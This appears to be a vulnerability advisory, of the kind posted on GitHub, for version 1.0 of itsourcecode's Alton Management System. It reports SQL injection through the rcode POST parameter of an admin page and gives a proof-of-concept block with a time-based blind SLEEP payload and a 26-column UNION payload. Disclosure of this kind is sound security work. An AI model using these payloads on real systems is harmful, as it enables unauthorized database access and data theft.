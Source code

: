 # Vendor

itsourcecode

# Product

Alton Management System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2020/02/altonsystem.zip

# Description

After logging into the administrator account, use the POST method to request the/retation_status.php page, with the rcode parameter included in the request. Due to the page's lax filtering of rcode parameters, SQL injection vulnerabilities have been created.
<img width="1091" alt="image" src="https://github.com/user-attachments/assets/d30223c0-3807-4c7a-a916-220cf486891f">


# Poc
```
Parameter: rcode (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: rcode=1' AND (SELECT 9171 FROM (SELECT(SLEEP(5)))KcsI) AND 'jidV'='jidV

    Type: UNION query
    Title: Generic UNION query (NULL) - 26 columns
    Payload: rcode=1' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176706271,0x4d78644f7042646e4f6b4b56754f67766354594c7759596f577845587869484d636b6e51794c4f70,0x7176626271),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
```
<img width="1126" alt="image" src="https://github.com/user-attachments/assets/c1f6b5c9-8734-4f5d-846c-f2a26b919d1d">
